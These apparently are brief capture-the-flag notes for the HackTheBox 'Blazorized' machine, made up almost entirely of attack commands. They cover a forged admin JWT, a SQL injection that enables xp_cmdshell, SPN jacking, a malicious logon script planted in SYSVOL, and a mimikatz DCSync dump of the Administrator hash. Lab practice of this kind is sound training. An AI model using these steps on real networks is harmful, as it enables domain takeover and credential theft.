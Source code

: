 # Blazorized

JWT:

{

  "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/emailaddress": "superadmin@blazorized.htb",
  
  "http://schemas.microsoft.com/ws/2008/06/identity/claims/role": "Super_Admin",
  
  "iss": "http://api.blazorized.htb",
  
  "aud": "http://admin.blazorized.htb",
  
  "exp": 1740000000
  
}


Inject:
www'; EXEC sp_configure 'show advanced options',1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE;-- -
www'; exec master..xp_cmdshell 'powershell#3base64';-- -

SPN Jacking
https://www.thehacker.recipes/ad/movement/kerberos/spn-jacking
https://www.semperis.com/blog/spn-jacking-an-edge-case-in-writespn-abuse/
Set-DomainObject -Identity RSA_4810 -SET @{serviceprincipalname='xx/xx'}
Get-DomainSPNTicket -SPN xx/xx

Login bat:
'powershell #3 base64 payload'| Out-File -FilePath C:\windows\SYSVOL\sysvol\blazorized.htb\scripts\A32FF3AEAA23\shell.bat -Encoding ASCII

Set ScriptPath:
Set-ADUser -Identity SSA_6010 -ScriptPath 'A32FF3AEAA23\shell.bat'

Get NTLM Hash:
lsadump::dcsync /domain:blazorized.htb /user:Administrator

